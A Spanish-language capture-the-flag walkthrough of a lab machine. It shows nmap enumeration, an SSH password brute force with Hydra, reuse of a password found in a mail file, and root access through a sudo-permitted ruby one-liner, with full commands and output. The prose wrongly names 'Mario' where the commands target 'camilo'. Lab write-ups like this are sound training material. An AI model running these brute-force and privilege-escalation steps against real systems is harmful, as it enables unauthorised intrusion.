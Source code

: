 #hydra #password-brute-force #gtfobins #abusing-sudo #ruby

![](../../../Images/Pasted%20image%2020241008071813.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio **SSH** i un servicio **HTTP** funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 17:03 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 17:04 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.80 seconds
```

## Website (80 TCP Port)

En el sitio web no vemos nada pero mirando el código fuente de la página descubrimos dos posibles nombres de usuarios.

![](../../../Images/Pasted%20image%2020241008170742.png)
# Usuario Camilo

Logramos conseguir una contraseña para el usuario **Mario** realizando un ataque de fuerza bruta de contraseñas con **Hydra** y logramos acceder en el sistems objectivo.

```
> hydra -l camilo -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 17:07:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 17:08:02
```

```
ssh camilo@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:52z4CT20OpL7G8YfPhcdERem6Sq+z8868LngvNGXRlA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
camilo@172.17.0.2's password:
$
```
# Usuario Juan

Una vez dentro del sistema realizamos una enumeración y logramos encontrar un correo electrónico con una contraseña. 

```
camilo@a8996f6fcde9:/var/mail/camilo$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Probando la contraseña encontrada con los diferentes usuario que existen logramos un movimiento lateral hacia el usuario **Juan**.

```
camilo@a8996f6fcde9:/var/mail/camilo$ su juan
Password:
$ id
uid=1000(juan) gid=1000(juan) groups=1000(juan)
$
```

# Escalada de privilegios

Una vez dentro investigamos los comandos que podemos ejecutar con permisos `sudo` y vemos que podemos ejecutar el binario **ruby**.

```
sudo -l
Matching Defaults entries for juan on a8996f6fcde9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on a8996f6fcde9:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Si investigamos en la página web de [GTFOBINS](https://gtfobins.github.io/) vemos como podemos conseguir una shell con permisos sudo.

![](../../../Images/Pasted%20image%2020241008172202.png)

```
$ sudo ruby -e 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
#
```